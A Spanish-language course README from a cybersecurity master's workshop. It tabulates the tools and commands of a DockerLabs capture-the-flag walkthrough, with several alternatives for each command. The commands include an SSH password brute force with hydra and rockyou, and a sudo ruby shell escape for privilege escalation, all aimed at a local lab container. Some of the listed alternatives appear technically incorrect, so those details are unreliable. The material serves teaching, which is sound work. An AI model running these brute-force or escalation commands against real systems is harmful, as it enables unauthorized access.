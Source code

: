# Taller de Electiva - Maestría en Ciberseguridad
:imp::rotating_light::skull:MY. GÓMEZ ORTEGA MARIO FRANCISCO:skull::rotating_light::imp:
![imagen 1 hacker taller MFGO](https://media1.tenor.com/m/z5yrWHMWfF8AAAAd/hacker-hack.gif)

Este taller tiene como objetivo desarrollar los puntos del taller de DOCKERLABS:

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

---

## 1. Herramientas empleadas en el taller de DockerLabs:

| HERRAMIENTA | DEFINICION                                                                                   | FUNCIONALIDAD                                         | EJEMPLOS DE USO                                                                                    |   |
|-------------|----------------------------------------------------------------------------------------------|-------------------------------------------------------|----------------------------------------------------------------------------------------------------|---|
| SCP         | Secure Copy Protocol: protocolo para copiar archivos entre máquinas remotas de forma segura. | Transferencia de archivos entre equipos mediante SSH. | Copiar archivos desde host a Kali Linux. Ej: `scp -r amor kali@192.168.1.12:/home/kali/Documents/` |   |
| Docker      | Plataforma de contenedores para ejecutar aplicaciones aisladas.                              | Despliegue de entornos vulnerables para prácticas.    | Ejecutar DVWA, desplegar laboratorio 'amor.tar'                                                    |   |
| Unzip       | Herramienta para descomprimir archivos .zip.                                                 | Extraer contenido de laboratorios comprimidos.        | `unzip nombre_maquina.zip`                                                                         |   |
| Netdiscover | Escáner ARP para descubrir dispositivos activos en la red.                                   | Detectar IP de contenedores en red Docker.            | `sudo netdiscover -i docker0 -r 172.17.0.0/24`                                                     |   |
| Nmap        | Network Mapper: escáner de red y puertos.                                                    | Identificar servicios y puertos abiertos.             | `nmap --min-rate 5000 -p- -sS -sV 172.17.0.2`                                                      |   |
| Gobuster    | Herramienta de fuerza bruta para encontrar rutas/directorios en servidores web.              | Fuzzing de directorios ocultos.                       | `gobuster dir -u http://IP/ -w wordlist.txt`                                                       |   |
| Hydra       | Herramienta para ataques de fuerza bruta contra servicios como SSH.                          | Crackear contraseñas por diccionario.                 | `hydra -l usuario -P diccionario ssh://IP`                                                         |   |
| SSH         | Secure Shell: protocolo seguro para conexión remota.                                         | Acceso remoto a sistemas Linux.                       | `ssh carlota@172.17.0.2`                                                                           |   |
| Steghide    | Herramienta para ocultar y extraer información de imágenes.                                  | Realizar esteganografía.                              | `steghide --extract -sf imagen.jpg`                                                                |   |
| Base64      | Sistema de codificación para datos binarios en texto ASCII.                                  | Decodificación de texto escondido.                    | `echo 'base64text' \| base64 -d`                                                                   |   |

---

## 2. ¿Para qué instalo Kali Linux?

**Kali Linux** es una distribución basada en Debian, diseñada específicamente para tareas de:

- **Pentesting (pruebas de penetración)**  
- **Análisis forense digital**
- **Ingeniería inversa**
- **Auditorías de seguridad de redes y aplicaciones**

Kali incluye más de 600 herramientas preinstaladas como:

- `nmap`, `hydra`, `sqlmap`, `burp suite`, `wireshark`, `aircrack-ng`, entre muchas otras.

> Es una herramienta estándar en la industria del hacking ético y se utiliza tanto en entornos académicos como profesionales para simular ataques y evaluar vulnerabilidades.

---

## 3. ¿Para qué instalo Docker sobre Kali Linux? ¿Qué es Docker y para qué sirve?

**Docker** es una plataforma de virtualización ligera basada en contenedores. Un contenedor es una unidad ejecutable que incluye todo lo necesario para ejecutar una aplicación: código, librerías, entorno y dependencias.

### ¿Por qué instalar Docker en Kali?

| COMANDO                                                                                            | EXPLICACIÓN DESGLOCE                                                                              | ALTERNATIVA 1                       | ALTERNATIVA 2                           | ALTERNATIVA 3                                                 |
|----------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------|-------------------------------------|-----------------------------------------|---------------------------------------------------------------|
| scp -r amor kali@192.168.1.12:/home/kali/Documents/                                                | `scp`: copia segura, `-r`: recursivo, `amor`: carpeta origen, `kali@...`: destino.                | scp archivo usuario@IP:/ruta/       | rsync -avz archivo usuario@IP:/ruta/    | sftp usuario@IP                                               |
| sudo apt install docker.io                                                                         | `sudo`: privilegios, `apt install`: instala paquete, `docker.io`: paquete de Docker.              | apt-get install docker.io           | snap install docker                     | curl \| bash (instalador oficial)                             |
| ./auto_deploy.sh amor.tar                                                                          | `./`: ejecutar script local, `auto_deploy.sh`: script de despliegue, `amor.tar`: archivo del lab. | bash auto_deploy.sh                 | sh auto_deploy.sh                       | chmod +x auto_deploy.sh && ./auto_deploy.sh                   |
| ip add                                                                                             | Muestra interfaces y direcciones IP del sistema.                                                  | ip a                                | ifconfig                                | hostname -I                                                   |
| sudo netdiscover -i docker0 -r 172.17.0.0/24                                                       | `-i`: interfaz, `docker0`: red virtual, `-r`: rango objetivo.                                     | arp-scan -l                         | nmap -sn 172.17.0.0/24                  | ip neigh                                                      |
| sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2                                                   | `--min-rate`: velocidad, `-p-`: todos los puertos, `-sS`: SYN scan, `-sV`: detectar versión.      | nmap -A IP                          | nmap -T4 -p 1-65535 IP                  | masscan -p1-65535 IP                                          |
| gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | `dir`: modo directorios, `-u`: URL, `-w`: diccionario de palabras.                                | ffuf -u URL/FUZZ -w wordlist        | dirb URL                                | dirsearch -u URL                                              |
| hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10                        | `-l`: login, `-P`: diccionario, `ssh://`:protocolo, `-t`: threads concurrentes.                   | medusa -u user -P pass -h IP -M ssh | ncrack -p 22 --user user -P wordlist IP | patator ssh_login host=IP user=USER password=FILE0 0=wordlist |
| scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor | Copia remota con `scp` desde usuario `carlota` al directorio destino local.                       | rsync -avz user@host:/path /destino | sftp user@host                          | wget scp://host/archivo                                       |
| steghide --extract -sf imagen.jpg                                                                  | Extrae información escondida de `imagen.jpg` usando Steghide.                                     | zsteg imagen.jpg                    | binwalk -e imagen.jpg                   | exiftool imagen.jpg                                           |
| echo "ZXNsYWNhc2FkZXBpbnlwb24=" \| base64 -d; echo                                                 | Decodifica texto base64, `-d`: decode.                                                            | base64 --decode                     | openssl enc -base64 -d                  | python3 -m base64                                             |
| sudo /usr/bin/ruby -e 'exec "/bin/bash"'                                                           | Ejecuta un shell `/bin/bash` con permisos elevados desde ruby.                                    | sudo ruby -e 'exec "/bin/bash"'     | ruby -rsystem -e 'system("/bin/bash")'  | echo 'bash' \| ruby                                           |
| file imagen.jpg                                                                                    | Identifica el tipo y formato de archivo, útil para análisis forense.                              | exiftool imagen.jpg                 | stat imagen.jpg                         | identify imagen.jpg                                           |

---


